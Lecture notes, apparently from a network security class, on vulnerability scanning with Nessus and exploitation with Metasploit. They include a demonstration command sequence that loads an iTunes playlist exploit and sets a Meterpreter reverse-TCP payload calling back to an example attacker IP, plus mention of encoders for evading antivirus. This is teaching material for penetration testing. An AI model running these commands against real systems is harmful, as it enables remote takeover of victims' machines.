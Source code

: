 ## Network Security: Vulnerability Scanning and Metasploit

**Instructor:** (Not mentioned in transcript, assumed to be the speaker)
**Date:** (Not mentioned in transcript)

**Learning Objectives:**

* Understand the concepts of vulnerability scanning and exploitation.
* Learn about Nessus for vulnerability scanning.
* Gain practical experience with Metasploit for exploiting vulnerabilities.
* Understand the different types of attacks (network-based vs. client-side).
* Learn about different types of payloads and encoders in Metasploit.

**Instructor's Teaching Approach:** The instructor uses a combination of conceptual explanations, real-world examples, and a practical demonstration of Metasploit to convey the material. The instructor emphasizes the importance of hands-on practice and recommends external resources like Metasploit Unleashed.

**Overview:** This lecture supplements the main network security course by focusing on practical tools and techniques for vulnerability assessment and exploitation. It covers two key tools: Nessus for scanning and Metasploit for exploitation. The lecture also explains various attack types, focusing on client-side attacks and their effectiveness in bypassing firewalls. Finally, the instructor provides a live demonstration of Metasploit, guiding students through the process of selecting an exploit and configuring its payload.

---

### Key Topics:

**1. Vulnerability Scanning and Exploitation:**

* **Vulnerability:** A weakness in a system that can be exploited.
* **Exploit:** Code or a tool that takes advantage of a vulnerability.
* **Payload:** Code delivered by the exploit to perform a specific action on the target system.

**2. Types of Attacks:**

* **Network-Based Attacks:** Attacks targeting network infrastructure and services.
* **Client-Side Attacks:** Attacks that require user interaction, such as clicking a link or opening a malicious file. These attacks are particularly dangerous as they bypass firewalls by originating from within the user's network.
    * **Example:** A user working from home receives a phishing email on their personal computer. Clicking a malicious link in the email can compromise the personal computer, allowing malware to spread to the corporate network through VPN connections or shared resources.
    * **Modern Techniques:** JavaScript embedded in seemingly legitimate advertisements can be used to redirect users to malicious websites or exploit vulnerabilities.

**3. Vulnerability Scanners:**

* **Nessus:** A popular vulnerability scanner capable of both external and internal scans. It can identify running services, their versions, and potential vulnerabilities. Nessus can also use credentials to log into systems for more thorough internal scans and can deploy agents for continuous monitoring.
    * **Configuration:** Nessus requires proper configuration for effective scanning. Misconfiguration can lead to inaccurate results and a false sense of security.  DHCP and network topology awareness are crucial for comprehensive scans.
* **Other Scanners:** QualysGuard, OpenVAS.

**4. Exploitation Tools:**

* **Metasploit:** A penetration testing framework that provides a platform for developing and executing exploits. It includes a vast library of exploits, payloads, and auxiliary modules.
    * **Framework Structure:** Metasploit's modular design allows for extensibility and customization.  Exploits are organized in a directory-like structure.
    * **Exploit Development:** Individuals can create and contribute exploits to the Metasploit framework, often for monetary compensation.
* **Commercial Alternatives:** Core Impact, Immunity Canvas (Metasploit-based with a GUI).

**5. Metasploit Terminology:**

* **Exploit:** Code used to leverage a specific vulnerability.
* **Payload:** Code executed after successful exploitation. Common payloads include command shells (e.g., Meterpreter) for remote control.
* **Encoder:** Used to modify the payload's signature to evade traditional antivirus detection.
* **Auxiliary Modules:** Additional tools within Metasploit for tasks like taking screenshots.

**6. Types of Payloads:**

* **Inline Payload:** Small payload embedded within the exploit itself. Limited by the size of the exploited buffer.
* **Staged Payload:** A small initial payload that establishes a connection and downloads a larger, more functional payload.
* **Reverse Payload:** The target system initiates a connection back to the attacker's machine.  Highly effective for bypassing firewalls.  Recommended for lab assignments.

**7. Metasploit Demonstration (Visual Aid - Screen Recording):**

* **Opening Metasploit Console:** `msfconsole`
* **Searching for Exploits:** `search iTunes`
* **Selecting an Exploit:** `use exploit/windows/fileformat/itunes_playlist`
* **Viewing Exploit Options:** `show options`
* **Setting Options:** `set serverhost 10.10.1.10` (Example IP)
* **Viewing Payloads:** `show payloads`
* **Setting Payload:** `set payload windows/meterpreter/reverse_tcp`
* **Setting Payload Options:** `set lhost 10.10.0.200` (Example IP)
* **Executing the Exploit:** `exploit`

---

### Exercises & Discussions:

* **Lab Assignment:** Use Metasploit to exploit a vulnerability. Reverse payloads are recommended.
* **Recommended Resource:** Metasploit Unleashed (free online resource).

---

### Important Announcements:

* **Lab Assignment Due Date:** (Not specified in the transcript)
* **Grading Criteria:** (Not specified in the transcript)
* **Additional Resources:** Metasploit Unleashed.

---

### Final Takeaways:

* Client-side attacks are highly effective due to their ability to bypass firewalls.
* Nessus is a powerful vulnerability scanner but requires proper configuration.
* Metasploit is a versatile framework for exploiting vulnerabilities.
* Reverse payloads are commonly used in real-world attacks.

**Follow-up Actions:**

* Complete the Metasploit lab assignment.
* Explore Metasploit Unleashed for further learning.
* Practice using different exploits and payloads.

**Motivational Note:** The skills learned in this class are highly relevant to the cybersecurity field. Mastering these tools and techniques can significantly enhance your ability to assess and mitigate security risks.  Continue practicing and exploring the vast capabilities of Metasploit to become proficient in penetration testing.